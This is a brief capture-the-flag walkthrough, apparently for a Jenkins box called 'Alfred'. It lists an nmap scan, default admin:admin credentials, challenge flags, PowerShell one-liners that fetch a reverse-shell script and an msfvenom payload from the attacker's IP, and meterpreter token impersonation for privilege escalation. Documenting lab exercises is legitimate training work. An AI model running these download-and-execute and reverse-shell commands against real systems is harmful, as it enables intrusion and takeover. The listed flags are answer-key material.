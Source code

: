 # Alfred Jenkins Exploit
---

___

# My IP

> 10.8.19.163

___

# Target IP

> 10.10.132.173
___

# NMAP Scan

> "nmap -Pn -n -p- -sC -sV -T5 10.10.132.173 | tee alfred.nmap"

1. How many ports are open?
,,,
3
,,,

2. What is the username and password for the log in panel(in the format username:password)?
,,,
> admin:admin
,,,

> uoloading files under config.

3. What is the user.txt flag?
,,,
> 79007a09481963edf2e1321abd9ae2a0
,,,

# Switching shells

1. What is the final size of the exe payload that was created.
,,,
73802
,,,

powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.19.163:8002/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.19.163 -Port 1235

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.19.163:8003/alfred2.exe','alfred2.exe')"

# Privilege Escalation

Successful reverse tcp shell with meterpreter in metasploit. 

> Used msfvenom to create a malware to start a connection.
>
> Used "Start-Process alfred2.exe"
>
> Escalated privileges by loading incognito in meterpreter "load incognito" then "list_tokens -g". Shows available user groups.
>
> Performed impersonation with "impersonate_token "BUILTIN\Administrators"".

1. read the root.txt file at C:\Windows\System32\config
,,,
dff0f748678f280250f25a45b8046b4a
,,,